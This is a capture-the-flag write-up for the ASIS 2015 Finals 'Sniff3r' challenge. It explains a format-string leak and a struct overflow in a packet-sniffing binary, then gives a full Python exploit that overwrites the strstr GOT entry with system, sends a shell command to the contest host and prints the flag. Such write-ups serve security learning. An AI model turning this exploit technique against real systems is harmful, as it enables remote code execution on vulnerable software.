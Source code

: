 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Sniff3r"
modified: 2015-10-15
tags: asis asis2015finals pwn libpcap
---
```


*This challenge was solved by and the write up was written by one of my teammates, [tukan](https://twitter.com/kapteinemalje)*

We were given an x64 ELF binary and the corresponding libc. It had most protections enabled but still had writeable .got entries. 

Reversing the challenge revealed that:

- the binary sniffs trafic via libpcap.
- processes only icmp and tcp/80 traffic.
- the icmp handler contains an information leak via a format string bug.
- the tcp handler contains a buffer overflow inside the structure allocated for tcp connections, allowing us to modify pointers later used as destination addresses for memcpy calls with attacker-controlled source data.
    
The relevant parts of the struct:

{% highlight c %}
struct connection {
	char hostname[256];
	char *username;
	char *password;
	...
}
{% endhighlight %}

The exploitation plan is as follows:

- leak pointers to libc and the binary from the stack using the format string bug.
- overwrite the username pointer in the connection struct with the address of the strstr .got entry.
- overwrite the strstr got entry (called on attacker-controlled data in the tcp handler) via the address of system from libc.
- read the flag using the the shell command: ". ./flag" (made possible by stderr coming back from the binary)

![alt]({{ site.url }}/images/asis2015finals/sniffer.png)

The flag was:
{% highlight text %}
ASIS{9327c8a200259781799e2a1a4966a371}
{% endhighlight %}

### Exploit

(not stable, you probably have to run multiple times)
    
{% highlight python %}
#! /usr/bin/env python
from pwn import *
from scapy.all import *

# LIVE = False
LIVE = True
def round():
    if LIVE:
        HOST = '185.82.202.66'
        r = remote(HOST, 2222)      # knocking
    else:
        HOST = '192.168.0.22'

    print 'HOST: ', HOST

    context.update(arch='amd64', os='linux')

    def leakit():
        payload = '%x'*10 + 'ZZZ' + '%p' + 'YYY' + '%x'* 6 + 'KKK%pLLL' + '%x'*112  + 'AAA' + '%p' + 'BBB' +'a'*440
        print 'payloadlen: ', len(payload)
        p = sr1(IP(dst=HOST)/ICMP()/payload, timeout=2)
        if not p:
            return None, None, None
        resp = str(p[Raw])
        print 'Resp: ', resp, len(resp)
        cookie = resp.split('ZZZ')[1].split('YYY')[0]
        cookie = int(cookie, 16)
        bin_addr = resp.split('KKK')[1].split('LLL')[0]
        bin_addr = int(bin_addr, 16)
        libc_addr = resp.split('AAA')[1].split('BBB')[0]
        libc_addr = int(libc_addr, 16)

        return bin_addr, libc_addr, cookie


    bin_addr, libc_addr, cookie = leakit()
    if not bin_addr:
        return
    print 'bin: ', hex(bin_addr)
    print 'libc: ', hex(libc_addr)
    print 'Cookie: ', hex(cookie)

    libc_diff = 0x7ffff7833ec5 - 0x00007ffff7812000
    libc_base = libc_addr - libc_diff
    system_offset = 0x0000000000046640
    system = libc_base + system_offset
    bin_diff = 0x182C
    bin_base = bin_addr - bin_diff
    strstr_offset = 0x203128
    strstr = bin_base + strstr_offset


    payload = 'Host: ' + cyclic(256) + p64(strstr) + '\r\nusername=' + p64(system) + '&password=' + 'A'*6 + '\r\n'
    q = send(IP(dst=HOST)/TCP(dport=80)/payload)
    # q = send(IP(dst=HOST)/TCP(dport=80)/'echo kaosdkas > /tmp/lolci #')
    q = send(IP(dst=HOST)/TCP(dport=80)/'. ./flag')
    r.interactive()

round()
{% endhighlight %}